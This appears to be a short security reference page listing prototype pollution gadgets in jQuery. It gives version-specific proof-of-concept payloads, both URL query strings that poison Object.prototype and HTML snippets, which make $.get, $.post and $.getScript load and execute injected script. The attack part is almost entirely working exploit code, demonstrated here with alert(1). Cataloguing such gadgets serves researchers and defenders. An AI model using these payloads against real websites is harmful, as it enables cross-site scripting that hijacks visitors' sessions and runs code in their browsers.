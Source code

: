 ## jQuery 

URL: https://jquery.com/

### PoC
#### $.get jQuery >= 3.0.0
```
?__proto__[url][]=data:,alert(1)//&__proto__[dataType]=script
```

```html
<script src=https://code.jquery.com/jquery-3.5.1.js></script>
<script> 
  Object.prototype.url = ['data:,alert(1)//'];   
  Object.prototype.dataType = 'script';
</script>      
<script>
  $.get('https://google.com/'); 
  $.post('https://google.com/'); 
</script>
```

#### $.getScript jQuery >= 3.4.0
```
?__proto__[src][]=data:,alert(1)//
```

```html
<script src=https://code.jquery.com/jquery-3.5.1.js></script>
<script>
  Object.prototype.src = ['data:,alert(1)//']
</script>
<script>
  $.getScript('https://google.com/')
</script>
```

#### $.getScript jQuery 3.0.0 - 3.3.1

```
?__proto__.url=data:,alert(1)//
```

```html
<script/src=https://code.jquery.com/jquery-3.3.1.js></script>
<script>
  Object.prototype.url = 'data:,alert(1)//'
</script>
<script>
  $.getScript('https://google.com/')
</script>
```
